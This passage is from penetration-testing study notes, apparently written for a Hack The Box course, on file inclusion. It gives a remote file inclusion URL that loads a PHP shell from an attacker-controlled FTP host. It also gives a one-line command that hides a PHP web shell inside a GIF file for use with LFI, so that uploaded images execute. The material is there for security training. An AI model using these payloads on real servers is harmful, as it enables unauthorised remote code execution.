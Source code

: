 > Exploit
> 
> 
> ```bash
> http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
> ```
> 
> ![Untitled](../../../../0xN1ghtM4r3-Notebook%203351968cf3f74ad68a09245768551fca/0xR3Y4D-Notebook%207651c00ee0914affa2b674b2d962ac9c/Server%20Side%20Attacks%20b1a016ea12d5480c9b34a987022407f6/File%20Inclusions%20273322b142ad4dd2806ca52bd28d7e9a/Study%20Notes%20e9a012804c054c9ea5aa1aa5ac36b644/Untitled%204.png)
> 

# LFI and File Uploads

<aside>
💡 If the vulnerable function has code `Execute` capabilities, then the code within the file we upload will get executed if we include it, regardless of the file extension or file type.

</aside>

## Image Upload

<aside>
💡 Image upload is very common in most modern web applications, as uploading images is widely regarded as safe if the upload function is securely coded. However, as discussed earlier, the vulnerability, in this case, is not in the file upload form but the file inclusion functionality.

</aside>

### **Crafting Malicious Image**

> Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image. So, we will use an allowed image extension in our file name (e.g. `shell.gif`), and should also include the image magic bytes at the beginning of the file content (e.g. `GIF8`), just in case the upload form checks for both the extension and content type as well. We can do so as follows:
> 
> 
> ```bash
> 0xR3Y4D@htb[/htb]$ echo '**GIF8**<?php system($_GET["cmd"]); ?>' > shell.gif
> ```
> 
